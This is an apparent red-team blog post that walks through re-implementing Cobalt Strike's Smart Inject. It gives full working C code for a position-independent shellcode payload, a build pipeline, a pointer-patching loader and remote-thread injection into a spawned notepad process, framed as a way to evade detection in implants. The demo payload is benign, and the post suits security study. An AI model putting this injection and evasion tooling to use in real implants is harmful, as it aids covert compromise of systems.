

# Implementing Smart Inject

Many of Cobalt Strike’s features like execute-assembly, PPID spoofing, or BlockDLL, have been researched and documented so that they can be used in payloads outside of Cobalt Strike. One feature that I have not seen documented is the “Smart Inject” setting in Malleable C2. In this blog we’ll walk through implementing this feature.

## What is Smart Inject?

Cobalt Strike offers the Malleable C2 profile to operators for configuring many of Beacon’s behaviors, like what injection techniques to use or what processes to spawn. One of these features is called Smart Inject, which the Cobalt Strike documents describe as: 

> smart inject passes key function pointers from Beacon to its same-arch post-exploitation capabilities. This allows smart inject-aware post-ex DLLs to situate themselves without shellcode-like behavior to resolve addresses.
> 

## Shellcode function resolution

The description from Help Systems mentions avoiding shellcode-like behavior, but what is that behavior exactly? Since shellcode is position independent code, it cannot rely on knowing where any functions are, and has to resolve everything itself. The most common way of doing this is a very well known technique to get the PEB address from a register, walk the in memory module list to find kernel32.dll, and then parse kernel32 to resolve the addresses for LoadLibrary and GetProcAddress. These two functions can then be used to resolve the addresses for any other functions that we need. This technique and the code for it is described in detail in this [awesome paper](https://vxug.fakedoma.in/papers/VXUG/Exclusive/FromaCprojectthroughassemblytoshellcodeHasherezade.pdf) from Hasherezade. 

The downside to this technique is that it is very well known and suspicious behavior. Additionally, it is not entirely necessary for post-exploitation activity. Since the function addresses should be the same in processes with the same architecture, we can instead use the function addresses from our current process where we’ve already resolved them.

## Implementing Smart Inject

In most shellcode payloads, we have a large block of code dedicated to resolving LoadLibrary and GetProcAddress before we can use them to do anything. In our case, we don’t need all of that code, since we are going to patch in the relevant function pointers. Below is a payload that will use these pointers to resolve MessageBoxA and pop up a message. I’ve set the pointer placeholders to be a block of A’s and B’s, but you could really use any unique pattern of this length.

```c
#include <Windows.h>

int ExecutePayload()
{
    LPVOID pGetModuleHandleA = 0xAAAAAAAAAAAAAAAA;
    LPVOID pGetProcAddress = 0xBBBBBBBBBBBBBBBB;

    HMODULE(WINAPI * _GetModuleHandleA)(LPCSTR lpModuleName) = (HMODULE(WINAPI*)(LPCSTR))pGetModuleHandleA;
    FARPROC(WINAPI * _GetProcAddress)(HMODULE hModule, LPCSTR lpProcName) = (FARPROC(WINAPI*)(HMODULE, LPCSTR)) pGetProcAddress;

    char kernel32_dll_name[] = { 'k','e','r','n','e','l','3','2','.','d','l','l', 0 };
    char load_lib_name[] = { 'L','o','a','d','L','i','b','r','a','r','y','A',0 };
    char get_proc_name[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s', 0 };

    HMODULE hKernel32 = _GetModuleHandleA(kernel32_dll_name);
    LPVOID pLoadLibraryA = _GetProcAddress(hKernel32, load_lib_name);
    HMODULE(WINAPI * _LoadLibraryA)(LPCSTR lpLibraryName) = (HMODULE(WINAPI*)(LPCSTR))pLoadLibraryA;

    char userenv_dll_name[] = { 'u','s','e','r','3','2','.','d','l','l', 0 };
    HMODULE hUserenv = _LoadLibraryA(userenv_dll_name);
    char messagebox_name[] = { 'M','e','s','s','a','g','e','B','o','x','A',0 };
    LPVOID pMessageBox = _GetProcAddress(hUserenv, messagebox_name);
    int(WINAPI * _MessageBox)(HANDLE hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT uType) = (int(WINAPI*)(HANDLE, LPCSTR, LPCSTR, UINT))pMessageBox;
    char messagebox_text[] = {'H','e','l','l','o',0};
    _MessageBox(NULL, messagebox_text, messagebox_text, 0x00000000L);
    return 0;
}
```

You can compile this payload on Windows with VS2022 with the following commands:

```
"C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\Tools\VsDevCmd.bat"
"C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.30.30705\bin\Hostx64\x64\cl.exe" /c /FA /GS- smartinject.c
python shellcode.py
"C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.30.30705\bin\Hostx64\x64\ml64.exe" smartinject_modified.asm /link /entry:AlignRSP /subsystem:windows
```

And the contents of shellcode.py are below. This is just a helper script that will fix up our assembly output before we link it.

- shellcode.py
    
    ```python
    import sys
    
    asm_file = []
    align_rsp = '''; https://github.com/mattifestation/PIC_Bindshell/blob/master/PIC_Bindshell/AdjustStack.asm
    
    ; AlignRSP is a simple call stub that ensures that the stack is 16-byte aligned prior
    ; to calling the entry point of the payload. This is necessary because 64-bit functions
    ; in Windows assume that they were called with 16-byte stack alignment. When amd64
    ; shellcode is executed, you can't be assured that you stack is 16-byte aligned. For example,
    ; if your shellcode lands with 8-byte stack alignment, any call to a Win32 function will likely
    ; crash upon calling any ASM instruction that utilizes XMM registers (which require 16-byte)
    ; alignment.
    
    AlignRSP PROC
        push rsi ; Preserve RSI since we're stomping on it
        mov rsi, rsp ; Save the value of RSP so it can be restored
        and rsp, 0FFFFFFFFFFFFFFF0h ; Align RSP to 16 bytes
        sub rsp, 020h ; Allocate homing space for ExecutePayload
        call ExecutePayload ; Call the entry point of the payload
        mov rsp, rsi ; Restore the original value of RSP
        pop rsi ; Restore RSI
        ret ; Return to caller
    AlignRSP ENDP
    '''
    #Track if we already inserted AlignRSP
    insertedAlign = False
    #Track if we're in a bad segment (pdata or xdata) that we don't want to write
    inBadSegment = False
    
    with open("smartinject.asm","r") as f:
        for line in f:
            #Fix all of the stuff to make a valid shellcode
            if("pdata\tSEGMENT" in line):
                inBadSegment = True
                continue
            if("xdata\tSEGMENT" in line):
                inBadSegment = True
                continue
            if(inBadSegment == True):
                if("pdata\tENDS" in line or "xdata\tENDS" in line):
                    inBadSegment = False
                continue
            if("_TEXT\tSEGMENT" in line and insertedAlign == False):
                asm_file.append(line)
                asm_file.append(align_rsp)
                insertedAlign = True
                continue
            if("gs:96" in line):
                asm_file.append(line.replace("gs:96","gs:[96]"))
                continue
            if("INCLUDELIB LIBCMT" in line):
                continue
            if("INCLUDELIB OLDNAMES" in line):
                continue
            if("OFFSET FLAT:" in line):
                asm_file.append(line.replace("OFFSET FLAT:", ""))
                continue
            
            asm_file.append(line)
            
    with open("smartinject_modified.asm","w") as pic:
        for line in asm_file:
            pic.write(line)
    ```
    

And finally you’ll need to extract the .text section from the compiled executable. You can do that with the following objcopy command.

```bash
objcopy -O binary --only-section=.text smartinject_modified.exe shellcode.bin
```

Writing the pointers into our shellcode is relatively easy. Below is a snippet of code to do that.

```c
#include <Windows.h>
#include <stdio.h>

void main() {

    //Get addresses to write into the shellcode
    HMODULE hKernel32 = GetModuleHandleA("kernel32.dll");
    LPVOID pGetModuleHandleA = GetProcAddress(hKernel32, "GetModuleHandleA");
    LPVOID pGetProcAddress = GetProcAddress(hKernel32, "GetProcAddress");
   
    //Get our shellcode buffer
    HANDLE hShellcode = CreateFileA("C:\\Users\\josh\\source\\repos\\shellcode\\shellcode\\shellcode.bin", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    DWORD shellcodeSize = GetFileSize(hShellcode, NULL);
    unsigned char* shellcodeBuffer = (unsigned char*)malloc(shellcodeSize);
    DWORD dwBytesRead;
    BOOL succ = ReadFile(hShellcode, shellcodeBuffer, shellcodeSize, &dwBytesRead, NULL);

    LPVOID GetModuleHandlePtr = NULL;
    LPVOID GetProcAddressPtr = NULL;
    //Find the placeholders to overwrite in our buffer
    for (int i = 0; i < shellcodeSize; i++) {
        if (shellcodeBuffer[i] == 0xb8) {
            if (shellcodeBuffer[i + 1] == 0xaa && shellcodeBuffer[i+2] == 0xaa) {
                GetModuleHandlePtr = &shellcodeBuffer[i + 1];
            }
            if (shellcodeBuffer[i + 1] == 0xbb && shellcodeBuffer[i + 2] == 0xbb) {
                GetProcAddressPtr = &shellcodeBuffer[i + 1];
            }
        }
    }

    if (GetModuleHandlePtr == NULL) {
        printf("Could not find GetModuleHandle in the buffer\n");
        return;
    }
    if (GetProcAddressPtr == NULL) {
        printf("Could not find GetProcAddress in the buffer\n");
        return;
    }

    printf("pGetModuleHandleA: %p\n", pGetModuleHandleA);
    printf("pGetProcAddress: %p\n", pGetProcAddress);

    printf("GetModuleHandlePtr: %p\n", GetModuleHandlePtr);
    printf("GetProcAddressPtr: %p\n", GetProcAddressPtr);

    //Overwrite our placeholders
    memcpy(GetModuleHandlePtr, &pGetModuleHandleA, sizeof(pGetModuleHandleA));
    memcpy(GetProcAddressPtr, &pGetProcAddress, sizeof(pGetProcAddress));
}
```

The above code will use GetModuleHandleA and GetProcAddress to resolve their own addresses. I use CreateFile + ReadFile to get the contents of the shellcode, but if you’re implementing this into an implant then presumably you’ll get the shellcode from the teamserver. Then we’ll walk through the shellcode buffer and find where our two placeholder values are. Again, I used a series of A’s and B’s as placeholders, but you could use any series of unique values that you can search for. Then we’ll overwrite the placeholders in our buffer with the addresses of our functions.

Then, you can inject this shellcode as you normally would. Below is a snippet of code to spawn a process and inject our shellcode. 

```c
//Spawn new process and inject
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));
    CreateProcessA(NULL, "C:\\Windows\\System32\\notepad.exe", NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi); 
    HANDLE remoteThread;
    PVOID remoteBuffer;
    processHandle = pi.hProcess;
    remoteBuffer = VirtualAllocEx(pi.hProcess, NULL, shellcodeSize, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, remoteBuffer, shellcodeBuffer, shellcodeSize, NULL);
    remoteThread = CreateRemoteThread(pi.hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    
```

And if we execute this, then we can see that our payload successfully uses the patched function pointers to resolve GetModuleHandleA and GetProcAddress in our spawned process.



## The best of both worlds

If you’re so inclined to use this technique, it’s likely that you don’t want to have to maintain two different versions of your payload. In that case, you can instead include all of the normal shellcode PEB-walking code as well as the placeholder function pointers. Then, when the shellcode executes, it can check whether or not the placeholder pointers have been replaced. If they have then we can use those, but otherwise proceed with the normal function resolution process.
